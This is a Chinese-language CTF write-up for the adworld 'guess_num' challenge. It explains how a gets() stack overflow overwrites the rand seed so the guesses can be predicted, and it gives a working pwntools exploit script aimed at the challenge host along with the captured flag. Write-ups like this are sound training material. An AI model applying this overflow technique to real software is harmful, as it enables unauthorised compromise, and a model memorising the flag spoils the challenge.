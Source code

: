 # guess_num

[题目地址](https://adworld.xctf.org.cn/challenges/details?hash=8da37b63-3819-4324-bc1c-770097693d4c_2)

这题很简单，我差点没做出来的原因也非常离谱。

看看main。

![main](../../images/guess_main.png)

目标是PrintFlag，条件是赢10轮猜数字游戏。在ida里逻辑很清楚，但是在ghidra里就有点奇怪了，胜利的条件是iVar1 % 6 == -1。我在python里试了一会，没试出来哪个数跟6的余数是-1的，包括负数。c语言里没有试，不过iVar1来自rand函数，rand我记得是不会随机出负数的。只能看wp才知道，原来正确的逻辑是iVar1=rand()%6+1。看来是伪代码出错，正确的做法应该是看汇编。我哪里会，也不想学，毕竟很快就有ida可以用了！

接下来就简单了。22行有个很明显的gets，存在栈溢出。rand使用前需要设定种子，相同种子的rand每次运行的结果都是一样的。此处使用的种子为local_18，图左边可以发现local_18与local_38差0x20，意味着只要覆盖0x20位就到local_18了。我们可以将其覆盖为已知运行结果的种子，接着就能随意通关了。python有个模块ctypes，可以调用指定libc下的c库函数。但是我没有libc，只能把结果在有libc上的机器打出来然后再在本机使用结果。

```python
from ctypes import *
libc = cdll.LoadLibrary("/lib/x86_64-linux-gnu/libc.so.6")
libc.srand(0)
for i in range(10):
    print(f"{libc.rand()%6+1},",end='')
```

直接上脚本。

```python
from pwn import *
p=remote("61.147.171.105",56224)
payload=b'a'*32 + p64(0) 
nums=[2,5,4,2,6,2,5,1,4,2]
p.sendlineafter("Your name:",payload)
for i in range(10):
    p.sendlineafter("Please input your guess number:",str(nums[i]))
print(p.recvall())
```

最开始我没有发送payload，导致怎么样都不成功。唉菜果然是有原因的。

- ### Flag
  > cyberpeace{7e7fed47a418d32ede749a106d3bd70e}